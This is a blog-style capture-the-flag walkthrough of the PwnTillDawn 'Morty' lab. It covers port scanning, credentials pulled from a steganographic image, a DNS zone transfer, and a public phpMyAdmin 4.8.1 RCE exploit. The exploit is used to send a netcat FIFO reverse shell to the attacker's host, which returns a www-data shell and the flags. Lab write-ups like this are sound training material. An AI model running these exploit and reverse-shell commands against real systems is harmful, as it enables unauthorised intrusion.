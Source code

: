```yaml
---
categories: [PwnTillDawn]
tags: [Public Exploit, PrivEsc, subdomain]
image:
  path: /Vulnhub-Files/img/Morty/Untitled.png
  alt: Morty -> https://www.wizlynxgroup.com/ , https://online.pwntilldawn.com/
---
```



## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.150.150.57
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-05 16:22 IST
Nmap scan report for 10.150.150.57
Host is up (0.19s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e8:60:09:66:aa:1f:e8:76:d8:84:16:18:1c:e4:ee:32 (RSA)
|   256 92:09:d3:0e:f9:47:48:03:9f:32:9f:0f:17:87:c2:a4 (ECDSA)
|_  256 1d:d1:b3:2b:24:dc:c2:8a:d7:ca:44:39:24:c3:af:3d (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 147   2020-06-10 11:25  note.html
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

On port 80 I found directory Listing which consist of a file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Morty/Untitled%202.png)

After setting the `/etc/hosts` file →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%203.png)

Now lets use this Web Page picture password in SSH , but no luck so I used this password in this picture to extract some data and I got it with this Password : `Fl4sk#!` →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ steghide extract -sf screen.jpeg
Enter passphrase: 
wrote extracted data to "keytotheuniverse.txt".
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ cat keytotheuniverse.txt 
rick:WubbaLubbaDubDub1!
```
{: .nolineno}

Now again I tried for SSH but no luck , what to do →

After sometime I looked for subdomain or subdomains and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ dig axfr @10.150.150.57 mortysserver.com 

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.150.150.57 mortysserver.com
; (1 server found)
;; global options: +cmd
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
mortysserver.com.	900	IN	NS	10.150.150.57.
rickscontrolpanel.mortysserver.com. 900	IN A	10.150.150.57
mortysserver.com.	900	IN	SOA	10.150.150.57. email.mortysserver.com. 1 900 900 604800 900
;; Query time: 187 msec
;; SERVER: 10.150.150.57#53(10.150.150.57) (TCP)
;; WHEN: Sat Aug 05 16:48:59 IST 2023
;; XFR size: 4 records (messages 1, bytes 212)
```
{: .nolineno}

Now I have 2 subdomains →

Lets look at them →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%204.png)

```bash
FLAG1=921e4db975bda77543cfe83fbe176d15e09ce7e2
```
{: .nolineno}

Now I used the rick credentials and got logged in and got the 2nd Flag too →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%205.png)

```bash
FLAG2=e39c995fbf614c5c38ca7343f59cc310e5880251
```
{: .nolineno}

Now I searched the phpmyAdmin exploit and I got it →

![Untitled](/Vulnhub-Files/img/Morty/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ searchsploit phpMyAdmin 4.8.1
----------------------------------------------------------------------
 Exploit Title                                                                                |  Path
----------------------------------------------------------------------
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)                                   | php/webapps/44924.txt
phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)                                   | php/webapps/44928.txt
phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                                                | php/webapps/50457.py
----------------------------------------------------------------------
Shellcodes: No Results
```
{: .nolineno}

Now lets use the RCE exploit in this case →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' whoami  
www-data
```
{: .nolineno}

Since it is working so lets upload the reverse shell script here →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ python 50457.py rickscontrolpanel.mortysserver.com 80 / rick 'WubbaLubbaDubDub1!' 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.66.67.202 4444 >/tmp/f'
```
{: .nolineno}

In response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.57]
└─$ nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.66.67.202] from (UNKNOWN) [10.150.150.57] 40096
/bin/sh: 0: cant access tty; job control turned off
$ 
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ whoami
whoami
www-data
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morty:/var/www/html/rickscontrolpanel/public_html/phpmyadmin$
```
{: .nolineno}

Now I got the last FLAG →

```bash
www-data@morty:/home/morty$ cat FLAG3.txt
cat FLAG3.txt
73ce6cecfc1109f1e43d379fd9922dcc699af321
www-data@morty:/home/morty$
```
{: .nolineno}

And I do not get to root since it doesnt give anything to get me to root so finish !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
